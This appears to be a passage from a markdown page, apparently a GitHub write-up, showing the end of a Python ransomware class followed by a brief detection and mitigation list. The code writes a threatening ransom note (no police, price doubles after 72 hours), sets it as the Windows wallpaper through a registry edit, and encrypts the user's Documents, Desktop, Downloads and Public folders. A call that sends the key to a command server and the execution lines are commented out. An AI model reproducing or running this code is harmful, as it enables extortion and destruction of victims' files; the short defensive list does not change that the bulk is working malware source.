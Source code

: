 ```python
- Do not try to decrypt yourself
- Do not contact police or FBI
- You have 72 hours before price doubles

═══════════════════════════════════════════════════════════
""".format(socket.gethostname())
        
        note_path = os.path.join(directory, 'README_DECRYPT.txt')
        with open(note_path, 'w') as f:
            f.write(note)
        
        # Set as wallpaper
        os.system(f'reg add "HKCU\\Control Panel\\Desktop" /v Wallpaper /t REG_SZ /d {note_path} /f')
        os.system('RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters')
    
    def execute(self):
        """Main ransomware execution"""
        # Target directories
        targets = [
            os.path.expanduser('~\\Documents'),
            os.path.expanduser('~\\Desktop'),
            os.path.expanduser('~\\Downloads'),
            'C:\\Users\\Public'
        ]
        
        for target in targets:
            if os.path.exists(target):
                self.encrypt_directory(target)
                self.drop_ransom_note(target)
        
        # Exfiltrate decryption key to C2
        # self.send_key_to_c2()

# Execute
# ransom = Ransomware()
# ransom.execute()
```

---

## Detection & Mitigation

**Detection**:
- Monitor for mass file modifications
- Detect shadow copy deletion
- Alert on unusual encryption activity
- Track service stops

**Mitigation**:
- Regular offline backups
- Endpoint protection with anti-ransomware
- Restrict write access
- Network segmentation
- Email filtering

---